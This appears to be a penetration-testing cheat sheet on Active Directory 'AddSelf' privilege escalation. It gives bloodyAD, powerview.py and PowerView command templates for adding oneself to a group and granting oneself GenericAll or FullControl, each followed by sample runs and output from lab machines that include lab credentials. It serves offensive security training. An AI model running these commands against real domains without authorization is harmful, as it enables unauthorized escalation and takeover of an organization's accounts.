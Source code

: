 ```yaml
---
title: "AddSelf"
date: 2024-8-2
tags: ["Powerview", "Genericall", "AddMember", "Group Policy", "Domain Controller", "Addself", "Active Directory", "Windows", "BloodyAD"]
---
```


### Privesc #1: Add self to group (From Linux)

{{< tab set1 tab1 >}}bloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}powerview.py{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add self to group

```console
# With password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add groupMember '<GROUP>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add groupMember SERVICEMGMT 'oorend'
[+] oorend added to SERVICEMGMT
```

```console
# With hashes
bloodyAD -d <DOMAIN> -u '<USER>' -p '<HASH>' -f rc4 -k --host <DC> add groupMember '<GROUP>' '<USER>'
```

```console
# With Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' -k --host <DC> add groupMember '<GROUP>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d absolute.htb -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -k --host dc.absolute.htb add groupMember 'NETWORK AUDIT' 'm.lovegod'
[+] m.lovegod added to NETWORK AUDIT
```

#### 2. Add genericAll over target group

```console
# With password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'oorend'
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

```console
# With Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' -k --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d absolute.htb -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -k --host dc.absolute.htb add genericAll 'NETWORK AUDIT' 'm.lovegod' 
[+] m.lovegod has now GenericAll on NETWORK AUDIT
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Connect

```console
sudo ntpdate -s <DC> && powerview '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && powerview 'rebound.htb/oorend:1GR8t@$$4u@dc01.rebound.htb'
Logging directory is set to /home/kali/.powerview/logs/dc01.rebound.htb
[2024-09-24 07:11:06] Channel binding is enforced!
(LDAPS)-[dc01.rebound.htb]-[rebound\oorend]
PV > 
```

#### 2. Add self to group

```console
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
```

```console {class="sample-code"}
PV > Add-DomainGroupMember -Identity 'servicemgmt' -Members 'oorend'
[2024-09-24 07:13:17] User oorend successfully added to servicemgmt
```

```console
# Check
Get-DomainGroupMember -Identity '<GROUP>'
```

```console {class="sample-code"}
PV > Get-DomainGroupMember -Identity 'servicemgmt'
GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : ppaul
MemberDistinguishedName     : CN=ppaul,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-1951

...[SNIP]...

GroupDomainName             : ServiceMgmt
GroupDistinguishedName      : CN=ServiceMgmt,CN=Users,DC=rebound,DC=htb
MemberDomain                : rebound.htb
MemberName                  : oorend
MemberDistinguishedName     : CN=oorend,CN=Users,DC=rebound,DC=htb
MemberSID                   : S-1-5-21-4078382237-1492182817-2568127209-7682
```

#### 4. Add fullcontrol over target group

```console
# Exit and login again to apply changes
Add-DomainObjectAcl -TargetIdentity '<TARGET_GROUP>' -PrincipalIdentity '<USER>' -Rights fullcontrol
```

```console {class="sample-code"}
PV > Add-DomainObjectAcl -TargetIdentity 'service users' -PrincipalIdentity 'oorend' -Rights fullcontrol
[2024-09-24 07:37:24] [Add-DomainObjectACL] Found target identity: OU=Service Users,DC=rebound,DC=htb
[2024-09-24 07:37:24] [Add-DomainObjectACL] Found principal identity: CN=oorend,CN=Users,DC=rebound,DC=htb
[2024-09-24 07:37:24] Adding FullControl to OU=Service Users,DC=rebound,DC=htb
[2024-09-24 07:37:24] DACL modified successfully!
```

```console
# Check
Get-DomainObjectAcl -Identity '<TARGET_USER>' -Where 'SecurityIdentifier contains <USER>'
```

```console {class="sample-code"}
PV > Get-DomainObjectAcl -Identity 'winrm_svc' -Where 'SecurityIdentifier contains oorend'
ObjectDN                    : CN=winrm_svc,OU=Service Users,DC=rebound,DC=htb
ObjectSID                   : S-1-5-21-4078382237-1492182817-2568127209-7684
ACEType                     : ACCESS_ALLOWED_ACE
ACEFlags                    : CONTAINER_INHERIT_ACE, INHERITED_ACE, OBJECT_INHERIT_ACE
ActiveDirectoryRights       : FullControl
AccessMask                  : 0xf01ff
InheritanceType             : None
SecurityIdentifier          : oorend (S-1-5-21-4078382237-1492182817-2568127209-7682)
```

<small>*Ref: [powerview.py](https://github.com/aniqfakhrul/powerview.py)*</small>

{{< /tabcontent >}}

### Privesc #1: Add self to group (From Windows)

{{< tab set2 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add self to group

```console
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>' -Credential $Cred
```

```console {class="sample-code"}
PS C:\programdata> Add-DomainGroupMember -Identity 'security engineers' -Members 'user' -Credential $Cred
Add-DomainGroupMember -Identity 'security engineers' -Members 'user' -Credential $Cred
```

```console
# Check
Get-DomainGroupMember -Identity '<GROUP>'
```

```console {class="sample-code"}
PS C:\programdata> Get-DomainGroupMember -Identity 'security engineers'
Get-DomainGroupMember -Identity 'security engineers'

...[SNIP]...

GroupDomain             : corp.local
GroupName               : Security Engineers
GroupDistinguishedName  : CN=Security Engineers,CN=Users,DC=corp,DC=local
MemberDomain            : corp.local
MemberName              : user
MemberDistinguishedName : CN=user,OU=Contractors,OU=Corp,DC=corp,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-2291914956-3290296217-2402366952-1114
```

{{< /tabcontent >}}